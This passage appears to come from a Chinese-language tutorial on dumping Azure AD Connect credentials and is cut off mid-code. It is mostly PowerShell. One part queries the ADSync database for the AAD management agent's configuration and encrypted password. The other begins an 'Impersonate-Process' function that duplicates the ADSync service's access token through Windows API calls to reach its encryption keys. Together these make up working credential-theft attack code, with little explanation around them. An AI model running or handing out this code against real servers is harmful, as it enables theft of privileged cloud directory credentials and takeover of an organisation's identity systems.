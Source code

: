 ```powershell
$sqlCommand = $sqlClient.CreateCommand()
$sqlCommand.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'Extensible2'"
$sqlReader = $sqlCommand.ExecuteReader()

if ($sqlReader.Read() -ne $true) {
    Write-Host "[-] No results or error querying AAD management agent"
    $sqlReader.Close()
    return
}

$aadConfigXml = $sqlReader.GetString(0)        # XML containing AAD domain/username information
$aadEncryptedConfig = $sqlReader.GetString(1)  # Base64 encrypted AAD password data
$sqlReader.Close()

Write-Host "[+] Retrieved AAD management agent configuration"
```

（4）接下来，我们需要创建一个 “Impersonate-Process” 方法，用于模拟  ADSync 服务的安全上下文，从而获取访问加密密钥所需的权限。该方法通过 Windows API 获取指定进程的访问令牌并进行模拟，使当前线程能够在目标进程的安全上下文中执行操作，这对于访问受保护资源至关重要。

```powershell
function Impersonate-Process {
    param(
        [string]$ProcessName
    )
    
    Add-Type -TypeDefinition @"
    using System;
    using System.Runtime.InteropServices;
    using System.Security.Principal;
    
    public class TokenImpersonation {
        [DllImport("advapi32.dll", SetLastError = true)]
        public static extern bool OpenProcessToken(IntPtr ProcessHandle, uint DesiredAccess, out IntPtr TokenHandle);
        
        [DllImport("advapi32.dll", SetLastError = true)]
        public static extern bool DuplicateToken(IntPtr ExistingTokenHandle, int ImpersonationLevel, out IntPtr DuplicateTokenHandle);
        
        [DllImport("advapi32.dll", SetLastError = true)]
        public static extern bool ImpersonateLoggedOnUser(IntPtr TokenHandle);
        
        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool CloseHandle(IntPtr hObject);
        
        [DllImport("advapi32.dll", SetLastError = true)]
        public static extern bool RevertToSelf();
        
        public const uint TOKEN_DUPLICATE = 0x0002;
        public const uint TOKEN_QUERY = 0x0008;
        public const uint TOKEN_IMPERSONATE = 0x0004;
        public const int SecurityImpersonation = 2;
        
        public static bool ImpersonateProcessToken(string processName) {
            IntPtr hToken = IntPtr.Zero;
            IntPtr dupeToken = IntPtr.Zero;
            
            try {
                var process = System.Diagnostics.Process.GetProcessesByName(processName)[0];
                
                if (!OpenProcessToken(process.Handle, TOKEN_QUERY | TOKEN_IMPERSONATE | TOKEN_DUPLICATE, out hToken)) {
```